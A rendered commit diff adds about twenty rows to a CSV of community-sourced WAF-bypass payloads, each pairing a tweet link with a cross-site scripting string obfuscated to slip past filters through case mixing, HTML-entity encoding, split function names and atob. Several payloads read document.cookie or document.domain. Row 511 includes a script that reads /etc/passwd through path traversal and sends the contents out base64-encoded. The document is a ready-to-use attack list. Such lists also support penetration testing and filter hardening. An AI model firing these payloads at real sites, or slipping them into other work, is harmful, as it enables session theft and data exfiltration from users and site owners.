

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; ↵ is a line break in a cell; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added new Bypasses

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
+row 499: https://twitter.com/TakSec/status/1786074467728515132 | 1'"&gt;&lt;A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)&gt; | xss
+row 500: https://twitter.com/KN0X55/status/1786022967933046971 | <A HRef=\" AutoFocus OnFocus=top/**/?.['al'%2B'ert'](1)> | xss
+row 501: https://twitter.com/PrinceOker79109/status/1786548416010498123 | <Img Src=OnXSS OnError=confirm("Hacked_by_a7madn1")> | xss
+row 502: https://twitter.com/XssPayloads/status/1788748656390058340 | &lt;foo%20bar=%250a%20onclick=&lt;your js code&gt; | xss
+row 503: https://twitter.com/Dharamveer_____/status/1788492033675440375 | %3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E | xss
+row 504: https://twitter.com/Dharamveer_____/status/1788492033675440375https://twitter.com/NinadMishra5/status/1790318182680740336 | `"//><script>alert()</script> | xss
+row 505: https://twitter.com/its_Loksh_P/status/1792006779783848407 | alert = window["al"+"ert"] | xss
+row 506: https://twitter.com/Sharo_k_h/status/1792235995154514276 | <details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle=&#x0000000000061;lert&#x000000028;origin&#x000029;> | xss
+row 507: https://twitter.com/0xRAYAN7/status/1793217107544424474 | <svg onload=alert&#0000000040document.cookie> <svg/oNLY=1/**/On+ONLoaD=co\u006efirm&\#x28;\#x29;> <Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NLZCA6KQ=="))> | xss
+row 508: https://twitter.com/0xRAYAN7/status/1793217107544424474 | &lt;svg/oNLY%3d1/**/On+ONLoaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b&gt; | xss
+row 509: https://twitter.com/0xRAYAN7/status/1793217107544424474 | &lt;Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NLZCA6KQ=="))&gt; | xss
+row 510: https://vulners.com/githubexploit/C99986A2-7B57-5939-9BD1-AA95A6572AF3?utm_source=rss&utm_medium=rss&utm_campaign=rss | ;echo 1337; die; | xss
+row 511: https://twitter.com/t0t3kingpad4/status/1800833416491049416 | /&gt;&lt;/script&gt;&lt;script&gt;alert(document.domain)&lt;/script&gt;,xss ↵ https://twitter.com/cyber_advising/status/1804119011086549017, <script>fetch('/json_api.php?query[]=../etc/passwd').then(r => r.text()).then(t => fetch('/json_api.php?query[]=../rspamd_custom_maps/'+btoa(t)))</script>,xss ↵ https://twitter.com/RootMoksha/status/1804523003235225830, <details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle=prompt(document.cookie);"> | xss
+row 512: https://twitter.com/RootMoksha/status/1804523003235225830 | <svg/onload=alert/*1337*/(1)> | xss
+row 513: https://twitter.com/RootMoksha/status/1804523003235225830 | &lt;svg/onload=alert//&amp;NewLine;(2)&gt; | xss
+row 514: https://twitter.com/RootMoksha/status/1804523003235225830 | &lt;svg/onload=alert&amp;sol;**&amp;sol;(3)&gt; | xss
+row 515: https://twitter.com/RootMoksha/status/1804523003235225830 | &lt;svg/onload=alert/&amp;#42;&amp;#42;/(4)&gt; | xss
+row 516: https://twitter.com/RootMoksha/status/1804523003235225830 | &lt;svg/onload=alert&amp;#x2F;**&amp;#47;(5)&gt; | xss
+row 517: https://twitter.com/XssPayloads/status/1805805676662255918 | <img hrEF="x" sRC="data:x" oNLy=1 oNErrOR=prompt`1`> | xss
```
